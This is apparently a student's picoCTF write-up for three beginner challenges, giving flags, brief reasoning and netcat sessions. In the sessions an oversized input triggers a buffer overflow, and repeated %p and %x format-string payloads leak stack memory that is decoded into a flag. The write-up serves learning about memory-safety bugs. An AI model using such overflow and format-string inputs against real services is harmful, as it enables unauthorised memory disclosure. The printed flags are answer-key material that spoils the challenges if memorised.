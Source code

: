 ## 1. buffer overflow 0

### **Flag-**    
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

### **Thought Process-**      
> I just read the c program and the challenge itself gave the clue that I had to buffer overflow in order to get the flag and I got it. I had to atleast input 20 bytes
  of string to get the flag because though the buffer `buf2` is of 16 bytes but the return address is of 4 bytes hence I required atleast 20 bytes of data to make the
  program to jump to `sigsegv_handler` to get the flag. 

**Working-**     
```bash
 nc saturn.picoctf.net 51209
Input: aefasjedfbnwpiusfgnhbasuiogbfiawsuefgbwyuoatefybawsiuefgawuifgebaweuoeyfbawsuifgvbaseufbnawuioyfgbwaOUEBFTGVAWIOUFTGBAWIUEFBAWIFEBWAISEFBWouiebfawoupeftgbawI(Ueghft9wpUHEF8AW7EGFBAWIEUEFGWaurfhbaw97ufhbawiuyerfhbaweiuughfw
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## 2. format string 0

### **Flag-**    
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

### **Thought Process-**     
> It was sort of similar to the 1st challenge, after going through the program I understood here also I had to buffer overflow.

**Working-**    
```bash
 nc mimas.picoctf.net 61152
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Pe20021560_Portobellosdijhfbvsuydfobsdiyfbgsiyuefbsdyfbsuydfbsidjfbsduiyfbsidfvbsdfbn
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

## 3. flag leak

### **Flag-**
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

### **Thought Process-**
> Here the vulnerability was because of `printf` statement because while printing it responds to certain format specifiers such as %p(to read addresses on the stack), 
  %s(To read the contents of strings stored at certain memory locations), %x(To print data in hexadecimal format). I tried combinations of all these specifiers to get the flag directly but it was getting difficult 
  to find out the flag address so directly used `%x` to get the hexadecmal values and find out the data by converting the hex data to ASCII. After several tries and observations I was able to find out the addrss 
  and the flag.

**Working-**     
```bash
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p %p %p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p%p %p
Here's a story -
0xff9adf80
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's a story -
0xff8b6be00xff8b6c000x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x315f6b630x623261310x7d6132350xfbad20000x68521800(nil)0xed6649900x804c0000x8049410(nil)0x804c0000xff8b6cc80x80494180x20xff8b6d740xff8b6d80(nil)0xff8b6ce0(nil)(nil)0xed45aed5
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p
Here's a story -
0xfff5e9600xfff5e9800x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x277025270x252770250x702527700x277025270x252770250x702527700x7025270x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x315f6b630x623261310x7d6132350xfbad20000x39666900(nil)0xf45d49900x804c000'0x8049410'(nil)'0x804c000'0xfff5ea48'0x8049418'0x2'0xfff5eaf4'0xfff5eb00'(nil)
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p'%p
Here's a story -
0xffc315d00xffc315f00x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x252770250x702527700x277025270x252770250x702527700x277025270x252770250x702527700x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x27702527'0x25277025'0x70252770'0x702527'0x6f636970'0x7b465443'0x6b34334c'0x5f676e31'0x67346c46'0x6666305f'0x3474535f'0x315f6b63'0x62326131'0x7d613235'0xfbad2000'0xc8709f00'(nil)'0xe801b990'0x804c000
^C
:~$ nc saturn.picoctf.net 58085
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x?%x
Here's a story -
ff851200ff8512208049346782578257825782578257825782578257825782578257825782578257825782578257825782578253f78253f253f782578253f783f78253f253f782578253f783f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?3f78253f?253f7825?78253f78?78253f?6f636970?7b465443?6b34334c?5f676e31?67346c46?6666305f?3474535f?315f6b63?62326131?7d613235?fbad2000?29d9a000?0?e99d4990
```

**Tool-**      
![Rapid_Tables](/Images/picoCTF_flag_leak.png)

Here I figured out that I had to rearrange the flag as at the end of the flag `{` this should be there but I was shifted this helped to figure out the shifting.
